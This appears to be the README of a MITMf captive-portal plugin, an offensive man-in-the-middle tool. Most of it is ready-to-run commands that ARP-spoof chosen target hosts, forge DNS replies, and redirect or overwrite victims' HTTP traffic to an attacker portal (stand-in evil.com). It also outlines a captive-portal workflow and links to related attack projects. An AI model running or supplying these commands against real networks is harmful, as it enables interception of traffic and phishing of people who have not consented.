 MITMf-captive-portal plugin
===========================


# Commands

This command simply modifies all HTTP (80/tcp) and redirects them to portalurl.
`python mitmf.py -i wlan0 --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.29,192.168.178.21 --portal --portalurl http://www.evil.com`

Additionally to the above, this command listens for DNS queries and responsed with a forged CNAME and A record to redirect to the portal host. Race condition exists, as the legitimate response is not filtered.
`python mitmf.py -i wlan0 --log-level info --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portalurl http://www.evil.com --portaldns`

This command modifies all HTTP (80/tcp) responses and overwrites everything with the static template.
`python mitmf.py -i wlan0 --log-level info --spoof --dns --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portaltemplate /root/Tools/MITMf/config/portal/test.html`

If your are running a wifi access point you can use the following command (no spoofing required).
`python mitmf.py -i wlan0 --log-level info --portal --portalurl http://www.evil.com`

# Captive Portal Workflow
1. Client associates to the AP
2. Client starts a browser and generates ARP/DNS/HTTP traffic
3. HTTP gets captured by the Controller and then redirected to CP server URL
4. Client sends a HTTP GET to the CP server

# Links
## MITMf Intro
* [Introducing MITMf - A Framework for Man-In-The-Middle Attacks](http://sign0f4.blogspot.de/2014/07/introducing-mitmf-framework-for-man-in.html)

## Related Work
* [Evil Portal](https://github.com/frozenjava/evilportal)


